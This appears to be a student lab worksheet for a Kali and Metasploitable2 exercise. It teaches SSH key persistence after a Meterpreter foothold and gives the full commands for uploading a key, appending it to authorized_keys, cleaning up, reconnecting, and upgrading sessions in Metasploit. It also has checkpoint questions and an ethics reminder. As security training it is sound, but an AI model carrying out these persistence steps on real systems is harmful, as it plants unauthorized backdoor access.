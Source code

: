 # 📝 Student Worksheet – SSH Persistence After Initial Foothold

## Objective  
In this lab, you will learn how to maintain access on a compromised Linux system by setting up **SSH key-based persistence** after gaining your first shell foothold (e.g., via Meterpreter).

---

## Step 1 – Generate SSH Keys (on Kali)  
We first create an RSA key pair (public + private key) to authenticate later.

```bash
ssh-keygen -t rsa -b 2048 -f ./id_rsa -N ""
```

✅ **Checkpoint:**  
1. Which two files were generated? (e.g., `id_rsa`, `id_rsa.pub`)?
- Answer: id_rsa, id_rsa.pub
2. Which file should never be shared? (private key or public key?)
- Answer:

---

## Step 2 – Upload Public Key to Target  
From your Meterpreter session, upload the public key:

```bash
upload id_rsa.pub /tmp/id_rsa.pub
```

✅ **Checkpoint:**  
3. Where is the public key stored on the target?
- Answer:

---

## Step 3 – Configure Persistence on Target  
Open a shell inside Meterpreter:

```bash
shell
```

Now run these commands **one at a time**:

```bash
mkdir -p ~/.ssh
cat /tmp/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
rm /tmp/id_rsa.pub
exit
```

✅ **Checkpoint:**  
4. What does `chmod 600 ~/.ssh/authorized_keys` do?  
- Answer: 

---

## Step 4 – Connect Back with SSH  
On Kali, use the private key to connect:

```bash
ssh -i ./id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <username>@<target-ip>
```

- **Username:** Found by running `whoami` inside the foothold shell (e.g., `www-data`)  
- **Target IP:** Found on Metasploitable2 using:

```bash
ifconfig
```

✅ **Checkpoint:**  
5. What username did you gain access as? 
- Answer:  
6. What is the target IP?
- Answer:

**Note:** Type `yes` if prompted about host fingerprinting.  

---

## Step 5 – Persistence with Metasploit (Optional)  
You can also manage SSH persistence via Metasploit.

1. Start Metasploit:  
   ```bash
   msfconsole
   ```

2. Configure the module:  
   ```bash
   use auxiliary/scanner/ssh/ssh_login_pubkey
   set rhost <target-ip>
   set USERNAME www-data
   set KEY_PATH ./id_rsa
   set SSH_KEYFILE_ALGS +ssh-rsa,ssh-dss
   run
   ```

3. List sessions:  
   ```bash
   sessions -l
   ```

4. Upgrade shell session to Meterpreter:  
   ```bash
   sessions -u <session-id>
   ```

5. Interact with the new session:  
   ```bash
   sessions -i <new-session-id>
   ```

✅ **Checkpoint:**  
7. What session ID was upgraded?  
- Answer:
8. Why might upgrading to Meterpreter be useful?
- Answer:

---

## Reflection Questions
9. Why is SSH persistence more reliable than keeping only a Meterpreter shell?
- Answer:  
10. What security controls could prevent an attacker from using this technique?  
- Answer: 

---

⚠️ **Ethics Reminder:**  
This technique is for **educational purposes only**. Never attempt persistence on a system you do not own or have explicit permission to test.  
